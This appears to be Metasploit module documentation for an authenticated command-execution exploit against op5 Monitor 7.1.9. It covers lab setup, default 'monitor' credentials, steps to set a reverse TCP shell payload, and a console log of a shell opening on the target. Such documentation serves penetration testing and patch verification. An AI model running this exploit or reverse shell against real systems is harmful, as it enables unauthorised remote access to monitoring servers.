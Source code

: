 ## Vulnerable Application

  Official Source: [op5.com](https://www.op5.com/blog/wpfb-file/op5-monitor-7-1-9-20160303-tar-gz/)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Just a few quick notes on setting up a vulnerable lab with this software.

  1. The vulnerable version only installs on CentOS 6.x (author used 6.0 final)
  2. Within `php.ini`, `date.timezone = "America/New York"` to `date.timezone = "America/New_York"` if you get php errors
  3. You may need to register for a free license via an email challenge/verification

## Verification Steps

  1. Install the software, RHEL/CENTOS required (tested on CentOS 6)
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/op5_config_exec```
  4. Do: ```set payload linux/x86/shell/reverse_tcp```
  5. Do: ```set rhost 192.168.2.31```
  6. Do: ```set lhost 192.168.2.229```
  7. Do: ```exploit```
  8. You should get a shell.

## Options

### PASSWORD

  Password is 'monitor' by default.

### USERNAME

  Documentation was unclear on this.  Installing just the app, the
  username was 'monitor' by default.  However it looks like if you
  install the appliance it may be 'root'

## Scenarios

  ```
    msf > use exploit/linux/http/op5_config_exec 
    msf exploit(op5_config_exec) > set verbose true
    verbose => true
    msf exploit(op5_config_exec) > set payload linux/x86/shell/reverse_tcp
    payload => linux/x86/shell/reverse_tcp
    msf exploit(op5_config_exec) > set rhost 192.168.2.31
    rhost => 192.168.2.31
    msf exploit(op5_config_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(op5_config_exec) > check
    
    [+] Version Detected: 7.1.9
    [+] The target is vulnerable.
    msf exploit(op5_config_exec) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending stage (36 bytes) to 192.168.2.31
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.31:52552) at 2016-06-01 14:38:41 -0400
    [*] Command Stager progress - 100.00% done (832/832 bytes)
    whoami
    monitor
    id
    uid=299(monitor) gid=48(apache) groups=48(apache),14(uucp),488(smstools) context=system_u:system_r:initrc_t:s0
  ```

